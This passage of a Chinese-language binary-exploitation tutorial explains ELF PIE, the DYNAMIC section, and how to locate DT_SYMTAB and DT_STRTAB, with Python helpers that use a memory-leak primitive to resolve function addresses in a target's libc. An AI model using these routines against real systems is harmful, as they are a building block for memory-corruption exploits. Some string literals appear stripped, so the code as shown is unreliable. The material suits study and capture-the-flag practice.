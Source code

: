 对于开启了PIE保护(位置独立的可执行区域)的二进制程序，在Elf32_Phdr-&gt;p_vaddr将有一个到模块的基地址的偏移量。对于未开启pie的二进制文件，Elf32_Phdr-&gt;p_vaddr将有一个虚拟地址。

DYNAMIC部分包含一个Elf32_Dyn/Elf64_Dyn结构体数组。每个结构体都包含有关参与动态链接过程的节表的信息。其中包括DT_GOTPLT、DT_HASH、DT_STRTAB、DT_SYMTAB、DT_DEBUG等等。

我们感兴趣的动态节表是DT_SYMTAB aka符号表和DT_STRTAB aka字符串表。



## 查找DT_SYMTAB和DT_STRTAB

符号表包含一个Elf32_Sym/Elf64_Sym结构体数组。每个符号/函数都有一个结构。函数的加载地址可以在Elf32_Sym-&gt;st_value元素中找到。Elf32_Sym-&gt;st_name元素在DT_STRTAB中保存偏移量，DT_STRTAB是有关符号的字符串所在位置。

查找DT_STRTAB和DT_SYMTAB的示例代码:

```
def findDynTable(Elf32_Dyn, table, bitSz):
   p_val = 0
   if bitSz == 32:
      i = -8
      while p_val != table:
         i += 8
         p_val = u32(leak(Elf32_Dyn + i, wordSz).ljust(4, ''))
      return u32(leak(Elf32_Dyn + i + 4, wordSz).ljust(4, ''))
   else:
      i = -16
      while p_val != table:
         i += 16
         p_val = u64(leak(Elf32_Dyn + i, wordSz).ljust(8, ''))
      return u64(leak(Elf32_Dyn + i + 8, wordSz).ljust(8, ''))

DT_STRTAB = findDynTable(libcDynamic, 5, bits)

DT_SYMTAB = findDynTable(libcDynamic, 6, bits)
```



## 寻找函数地址

为了找到目标符号表，我们解析每个Elf32_Sym-&gt;st_name，直到DT_STRTAB[Elf32_Sym-&gt;st_name] == target_symbol。一旦条件成立，我们就找到了目标Elf32_Sym结构，现在我们只需查看Elf32_Sym-&gt;st_value元素来获得目标符号的加载地址。

示例代码片段:

```
def findSymbol(strtab, symtab, symbol, bitSz):
   if bitSz == 32:
      i = -16
      while True:
         i += 16
         st_name = u32(leak(symtab + i, 2).ljust(4, ''))
         if leak( strtab + st_name, len(symbol)+1 ).lower() == (symbol.lower() + ''):
            return u32(leak(symtab + i + 4, 4).ljust(4, ''))
   else:
      i = -24
      while True:
         i += 24
         st_name = u64(leak(symtab + i, 4).ljust(8, ''))
         if leak( strtab + st_name, len(symbol)).lower() == (symbol.lower()):
            return u64(leak(symtab + i + 8, 8).ljust(8, ''))
```

